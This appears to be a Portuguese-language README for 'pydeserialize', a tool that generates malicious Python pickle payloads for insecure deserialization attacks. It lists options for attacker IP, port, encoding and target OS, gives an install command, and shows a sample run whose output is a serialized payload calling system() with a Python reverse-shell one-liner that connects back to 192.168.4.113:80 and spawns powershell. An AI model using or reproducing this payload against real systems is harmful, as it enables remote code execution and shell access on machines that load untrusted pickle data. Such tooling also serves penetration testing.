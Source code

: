```yaml
  -p PORT               Insert port
  -e {b64,shell,urlencode,hex} Insert encoding
  -o {Windows,Linux}    Insert operational system
```

# Instalação

pydeserialize requer **python3** e para baixá-lo só usar:

```sh
pip3 install pydeserialize
```

# Executando pydeserialize

```console
pydeserialize -ip 192.168.4.113 -p 80 -o Windows -e shell

           _                 _     _ _         
 ___ _ _ _| |___ ___ ___ ___|_|___| |_|___ ___ 
| . | | | . | -_|_ -| -_|  _| | .'| | |- _| -_|
|  _|_  |___|___|___|___|_| |_|__,|_|_|___|___|
|_| |___|  
     v0.0.8 - @joaoviictorti

b'\x80\x04\x95\xf9\x00\x00\x00\x00\x00\x00\x00\x8c\x02nt\x94\x8c\x06system\x94\x93\x94\x8c\xe1python -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.4.113",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("powershell")\'\x94\x85\x94R\x94.'
```

<img width=100% src="https://capsule-render.vercel.app/api?type=waving&color=0000FF&height=120&section=footer"/>